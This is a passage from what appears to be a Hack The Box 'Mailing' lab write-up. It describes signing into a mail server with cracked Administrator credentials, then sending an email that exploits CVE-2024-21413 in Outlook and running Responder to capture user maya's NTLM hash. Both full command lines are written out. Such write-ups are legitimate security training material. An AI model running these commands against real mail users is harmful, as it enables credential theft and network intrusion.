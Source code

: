 ### Mail Access

Now we can signin to mail server as Administrator using the cracked credentials:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/mailing/image-13.png)

However, this mail server is empty:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/mailing/image-14.png)

It seems like there should be some sort of user interaction to get initial foothold

## Shell as maya
### Responder

Using [this exploit](https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability?tab=readme-ov-file), I can craft email that contains malicious link that will enable attack to grab NTLM hash from it:

`python CVE-2024-21413.py --server 10.10.11.14 --port 587 --username administrator@mailing.htb --password homenetworkingadministrator --send administrator@mailing.htb --recipient maya@mailing.htb --url "\\10.10.14.20\test.txt" --subject "blahblah"`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/mailing/image-16.png)

After sending malicious email, Responder captures NTLM hash for user **maya**:

`sudo responder -I tun0`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/mailing/image-17.png)
